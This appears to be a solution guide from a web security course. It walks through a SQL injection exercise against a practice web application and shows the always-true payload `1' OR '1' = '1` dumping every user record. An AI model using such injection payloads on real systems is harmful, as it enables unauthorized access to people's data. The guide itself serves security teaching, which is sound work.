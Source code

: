 ## Solution Guide: Testing SQL Injection on Web Applications
  
This exercise challenged you to input a malicious SQL payload into a field on a web application, to cause unintended consequences. You were tasked with taking the SQL queries they built in the previous exercise to design payloads to use against the web application. You entered these payloads into a web application and tested whether it was vulnerable to SQL injection.  

---

1. Test the intended use of the web application. 

    - Enter the payload `1` into the web application. 

    - The results will display the following:

      ```
        ID: 1
        First name: admin
        Surname: admin
      ```

    - This matches the results from Step 1 of the SQL script run on DB Fiddle, except the last_name field, called "surname" on the web application:

        first_name |	last_name
        ------------ | ------------- 
        admin	| admin

2. Use an always true payload to test the unintended use of the web application. 

    - The second query was `select first_name, last_name from users where user_id = '1' OR '1' = '1' `.
        
    - The payload is `1' OR '1' = '1`.
        
    - Entering the payload will return the following:

      ```
        ID: 1' OR '1' = '1
        First name: admin
        Surname: admin

        ID: 1' OR '1' = '1
        First name: Gordon
        Surname: Brown

        ID: 1' OR '1' = '1
        First name: Hack
        Surname: Me

        ID: 1' OR '1' = '1
        First name: Pablo
        Surname: Picasso

        ID: 1' OR '1' = '1
        First name: Bob
        Surname: Smith
      ```
